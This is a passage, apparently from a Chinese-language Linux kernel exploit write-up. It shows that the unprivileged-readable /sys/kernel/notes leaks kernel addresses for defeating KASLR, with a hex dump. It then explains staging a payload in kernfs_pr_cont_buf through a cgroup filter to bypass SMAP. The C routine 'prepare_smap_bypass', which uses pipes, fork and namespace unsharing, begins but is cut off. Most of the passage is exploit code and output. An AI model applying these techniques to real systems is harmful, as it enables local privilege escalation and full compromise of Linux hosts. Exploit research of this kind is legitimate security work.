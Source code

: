 ‍

第一个问题，在 ubuntu 的 /sys/kernel/notes 文件地权限用户可读，里面会有一些内核镜像地址可以用于计算内核镜像基地址

```bash
ubuntu@ubuntu-2204:~$ xxd /sys/kernel/notes
00000000: 0400 0000 0600 0000 0600 0000 5865 6e00  ............Xen.
00000010: 6c69 6e75 7800 0000 0400 0000 0400 0000  linux...........
00000020: 0700 0000 5865 6e00 322e 3600 0400 0000  ....Xen.2.6.....
00000030: 0800 0000 0500 0000 5865 6e00 7865 6e2d  ........Xen.xen-
00000040: 332e 3000 0400 0000 0800 0000 0300 0000  3.0.............
00000050: 5865 6e00 0000 0080 ffff ffff 0400 0000  Xen.............
00000060: 0800 0000 0f00 0000 5865 6e00 0000 0000  ........Xen.....
00000070: 8000 0000 0400 0000 0800 0000 0100 0000  ................
00000080: 5865 6e00 c011 e682 ffff ffff 0400 0000  Xen.............
00000090: 0800 0000 0200 0000 5865 6e00 00a0 e381  ........Xen.....
000000a0: ffff ffff 0400 0000 2900 0000 0a00 0000  ........).......
000000b0: 5865 6e00 2177 7269 7461 626c 655f 7061  Xen.!writable_pa
000000c0: 6765 5f74 6162 6c65 737c 7061 655f 7067  ge_tables|pae_pg
000000d0: 6469 725f 6162 6f76 655f 3467 6200 0000  dir_above_4gb...
000000e0: 0400 0000 0400 0000 1100 0000 5865 6e00  ............Xen.
000000f0: 0188 0000 0400 0000 0400 0000 0900 0000  ................
00000100: 5865 6e00 7965 7300 0400 0000 0800 0000  Xen.yes.........
00000110: 0800 0000 5865 6e00 6765 6e65 7269 6300  ....Xen.generic.
00000120: 0400 0000 1000 0000 0d00 0000 5865 6e00  ............Xen.
00000130: 0100 0000 0000 0000 0100 0000 0000 0000  ................
00000140: 0400 0000 0400 0000 0e00 0000 5865 6e00  ............Xen.
00000150: 0100 0000 0400 0000 0400 0000 1000 0000  ................
00000160: 5865 6e00 0100 0000 0400 0000 0800 0000  Xen.............
00000170: 0c00 0000 5865 6e00 0000 0000 0080 ffff  ....Xen.........
00000180: 0400 0000 0800 0000 0400 0000 5865 6e00  ............Xen.
00000190: 0000 0000 0000 0000 0400 0000 1400 0000  ................
000001a0: 0300 0000 474e 5500 f340 a850 cc47 a7e1  ....GNU..@.P.G..
000001b0: f80b 4749 4122 28f1 fddf 3c89 0600 0000  ..GIA"(...<.....
000001c0: 0400 0000 0101 0000 4c69 6e75 7800 0000  ........Linux...
000001d0: 0000 0000 0600 0000 0100 0000 0001 0000  ................
000001e0: 4c69 6e75 7800 0000 0000 0000 0400 0000  Linux...........
000001f0: 0800 0000 1200 0000 5865 6e00 f009 0001  ........Xen.....
00000200: 0000 0000                                ....
ubuntu@ubuntu-2204:~$
```

第二个问题的解决是利用 cgroup filter 在 kernfs\_pr\_cont\_buf 里面放置数据，kernfs\_pr\_cont\_buf 的地址可以通过内核镜像的基地址计算，布置数据的代码如下：

```bash
static void prepare_smap_bypass(char *payload)
{
    pid_t pid;
    int fd;
    char buf[128];
    int a[2];
    int b[2];
    char c;
    char path[128];

    if(pipe(a) < 0) die("pipe");
    if(pipe(b) < 0) die("pipe");

    pid = fork();

    if(pid < 0) die("fork");

    if(pid == 0)
    {
        unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWNET);
```